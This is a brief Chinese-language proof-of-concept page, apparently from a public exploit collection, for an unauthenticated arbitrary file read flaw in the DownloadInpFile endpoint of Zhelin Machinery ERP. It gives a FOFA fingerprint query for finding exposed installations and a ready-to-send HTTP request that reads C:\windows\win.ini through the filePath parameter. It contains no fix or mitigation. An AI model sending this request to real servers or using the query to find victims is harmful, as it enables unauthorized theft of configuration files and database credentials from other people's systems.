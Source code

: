 # 哲霖机械ERP接口DownloadInpFile存在任意文件读取漏洞

哲霖机械ERP DownloadInpFile 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```javascript
body="Api/UserApi/GetUserName"
```

## poc

```javascript
GET /Basics/DownloadInpFile?filePath=C:\windows\win.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

![46554740fd4b4fe7abd8dca35c7e629b.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409132235284.png)
